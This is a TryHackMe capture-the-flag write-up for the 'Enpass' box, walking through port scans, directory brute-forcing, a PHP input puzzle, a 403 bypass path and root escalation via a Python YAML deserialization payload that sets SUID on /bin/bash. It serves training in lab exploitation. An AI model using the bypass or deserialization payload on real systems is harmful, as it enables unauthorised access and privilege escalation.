









# [Enpass](https://tryhackme.com/room/enpass) TryHackMe Writeup


## __Summary__

In this box first we get the ssh private key through directory bruteforcing , then the password for decrypting it by understanding php code and creating a string . Then bypassing a forbidden page and getting username . Then using a cronjob to gain root.


## First Stage : Enumeration


I started as usual with nmap scan.

```nmap
# Nmap 7.91 scan initiated Thu Feb 11 19:33:13 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.58.28
Warning: 10.10.58.28 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.58.28
Host is up, received conn-refused (0.16s latency).
Scanned at 2021-02-11 19:33:14 IST for 754s
Not shown: 65530 closed ports
Reason: 65530 conn-refused
PORT      STATE    SERVICE     REASON      VERSION
22/tcp    open     ssh         syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCicax/djwvuiP5H2ET5UJCYL3Kp7ukHPJ0YWsSBUc6o8O/wwzOkz82yJRrZAff40NmLEpbvf0Sxw2JhrtoxDmdj+FSHpV/xDUG/nRE0FU10wDB75fYP4VFKR8QbzwDu6fxkgkZ3SAWZ9R1MgjN3B49hywgwqMRNtw+z2r2rXeF56y1FFKotBtK1wA223dJ8BLE+lRkAZd4nOr5HFMwrO+kWgYzfYJgSQ+5LEH4E/X7vWGqjdBIHSoYOUvzGJJmCum2/MOQPoDw5B85Naw/aMQqsv7WM1mnTA34Z2eTO23HCKku5+Snf5amqVwHv8AfOFub0SS7AVfbIyP9fwv1psbP
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENyLKEyFWN1XPyR2L1nyEK5QiqJAZTV2ntHTCZqMtXKkjsDM5H7KPJ5EcYg5Rp1zPzaDZxBmPP0pDF1Rhko7sw=
|   256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJmb0JdTeq8kjq+30Ztv/xe3wY49Jhc60LHfPd5yGiRx
1646/tcp  filtered sa-msg-port no-response
8001/tcp  open     http        syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
47484/tcp filtered unknown     no-response
49473/tcp filtered unknown     no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hence the open ports are :

* 22
* 8001

Hence first I visited port 8001


So I started gobuster.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.28:8001/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/11 19:49:05 Starting gobuster
===============================================================
/index.html (Status: 200)
/web (Status: 301)
/reg.php (Status: 200)
/403.php (Status: 403)
/zip (Status: 301)
```
So first I went to zip directory .




I downloaded the first zip because it's size was bigger than others.

So I unzipped the file.



All the zip files got to one point that is the file **a** which had **sadman** in it. I thought this is a rabbit hole and proceeded to reg.php.


## __Second Stage : Initial access as user__

When I was looking at the source code I saw this interesting php code.

```php
<?php
     

if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
          
          $val = explode(",",$title);

          $sum = 0;
          
          for($i = 0 ; $i < 9; $i++){

                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {

                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
            
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }
          
          
          }

          if ( ($sum) == 9 ){
            

              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";

        
            
            }
            

                    else{

                      echo "  Try Try!!";

                
                    }
          }
        
          else{

            echo "  Try Again!! ";

      
          }     
 
  }
?>
```

So according to the condition we have to create a string and send it in the input field .

So I created this string of special character.

> !@,!@,!@,!@%,!@,!@,!%@,!@#,!@&,!@




So we get the first password . Let's find the path in the first question. I started using gobuster .

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.28:8001/web/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,json,js,txt,html
[+] Timeout:        10s
===============================================================
2021/02/11 20:08:20 Starting gobuster
===============================================================
/resources (Status: 301)
===============================================================
```
So next url is /web/resources

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.28:8001/web/resources/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php,json,js
[+] Timeout:        10s
===============================================================
2021/02/11 20:09:12 Starting gobuster
===============================================================
/infoseek (Status: 301)
===============================================================
```
Next url is /web/resources/infoseek

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.28:8001/web/resources/infoseek/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/11 20:13:18 Starting gobuster
===============================================================
/configure (Status: 301)
===============================================================
```
So next url is /web/resources/infoseek/configure

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.28:8001/web/resources/infoseek/configure/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,json
[+] Timeout:        10s
===============================================================
2021/02/11 20:15:28 Starting gobuster
===============================================================
/key (Status: 200)
/server-status (Status: 403)
```

Now we get the ssh private key. We have the password to decrypt it but we need a username.

Hence from the hint I got to understand that this has got to do something with 403.php.


Hence I visited it 403.php.



Here we have to bypass this page to get username , to bypass this we have to use a tool called [403fuzzer](https://github.com/intrudir/403fuzzer) ,click the link and clone the repo.

> python3 403fuzzer.py -u http://10.10.136.226:8001/403.php | grep 200 | tee results

So after it finished I went through the results.

The only thing that worked was 

> http://10.10.136.226:8001/403.php/..;/




Hence I got the username. Now let's ssh in.




## __Third Stage : user to root__

After running linpeas I found **scripts** directory in **/opt** dir.

There was a python file called __file.py__

```
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())

```
The user didn't have write permission , so we cannot edit the file. And this file was owned by root. So I downloaded pspy into the machine and ran it.





Hence from this we can say that there is a file called file.yml which is being loaded and run , so this is our entry point . After some googling I got to know about Yaml deserialization atack in python.

Please visit this link and give it a read.

> https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter




So this is our payload.
> !!python/object/apply:os.system ["chmod +s /bin/bash"]

Hence we save it to shell.yml and copy it to **file.yml**.




